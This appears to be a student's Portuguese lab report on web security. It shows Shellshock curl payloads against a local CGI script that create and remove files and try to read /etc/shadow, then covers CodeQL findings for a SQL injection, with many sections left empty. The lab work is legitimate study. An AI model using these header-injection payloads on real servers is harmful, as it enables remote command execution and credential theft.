# Module 2

-------

# Parte A

## Exercise 2
### Ponto a) 
    curl -H "ATTACK:() {echo hello; }; echo Content_type: text/plain; echo; /bin/touch /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"touch /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi



### Ponto b)
    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/rm /tmp/ficheiro" localhost:8080/cgi-bin/vul.cgi

    curl -H "ATTACK:() { echo hello; }; /bin/bash -c \"rm /tmp/ficheiro\"" localhost:8080/cgi-bin/vul.cgi

### Ponto c)
Para testar, tentou-se ler primeiro um ficheiro "ficheiro2" com texto no seu conteudo, através do código abaixo:

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /tmp/ficheiro2" localhost:8080/cgi-bin/vul.cgi

Depois, correu-se o mesmo código para o ficheiro pretendido

    curl -H "ATTACK:() { echo hello; }; echo Content_type: text/plain; echo; /bin/cat /etc/shadow" localhost:8080/cgi-bin/vul.cgi

A figura abaixo apresenta os resultados.



Como se pode observar, o primeiro ficheiro tinha dados e os mesmos foram impressos na linha de comandos.
No segundo código, nada foi apresentado.
Para garantir que o ficheiro tinha conteudo, abriu-se o docker em modo interativo e fez-se o cat desse mesmo ficheiro, como mostra a imagem abaixo.



Para também se entender as permissões de leitura e escrita deste ficheiro, correu-se um código para obter o USER atual, e outro para obter as permissões do ficheiro.



O que se pode observar é que o ficheiro necessita de permissões de root, mas o apache corre numa conta de user e não como root.

### Ponto d)
Não porque uma web url não aceita espaços, como no exemplo da figura abaixo, em que foi corrido o seguinte código:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm /tmp/ficheiro



Como podemos observar, os espaços são ignorados, e o sistema apenas lê o que está antes dos espaços.

Para tal, necessitamos de converter o espaço num código, sendo o espaço representado pelo código %20B.
Assim, o código fica:

    curl http://localhost:8080/cgi-bin/getenv.cgi?attack=/bin/rm%20B/tmp/ficheiro

O resultado é apresentado na figura abaixo.


O problema neste caso é que o bash não converte este código num espaço literal.

Pelas razões acima referidas e como foi possivel observar, não é possivel fazer o ataque através dos parâmetros.

# Parte B

## Static analysis

### Ponto 2
Neste ponto 
Verificar a Github Action para correr a plataforma CWE analytics do CodeQL é executada quando há um evento de push no repositório. Nos sub pontos a e b o CodeQL irá ser atualizado ao mudar a descrição do Workflow.
#### a)
Nas imagens abaixo é possivel verificar as alterações da versão de action 1 para a versão 2:





#### b)
Nas imagens abaixo é possivel verificar a adição do código do workflow trigger.





### Ponto 3

Após executar a action e analisar os logs de output foi encontrado o comando da imagem abaixo utilizado pelo CodeQL Action para inicializar a base de dados de code analysis. 



### Ponto 4

Neste ponto irá ser explorada a vulnerabilidade CWE-89. No code scanning da security está presente uma listagem das diferentes vulnerabilidades detetadas na aplicação com nível decrescente de vulnerabilidade. 

Como se pode observar na imagem seguinte foi pesquisada a entrada “Database query built from user-controlled sources” que apresenta uma lista de diversos ficheiros. 



O ficheiro que iremos explorar é denominado search.ts 




*image_caption*

Justify why CodeQL identified this code
as vulnerable. Include source and sink information. (more information about SQL Injection can
be found here https

### Ponto 5

## Dynamic analysis

### Ponto 6


### Ponto 7


### Ponto 8




### Ponto 9
#### a)

#### b)

### Ponto 10

### Ponto 11

### Ponto 12

### Ponto 13

### Ponto 14

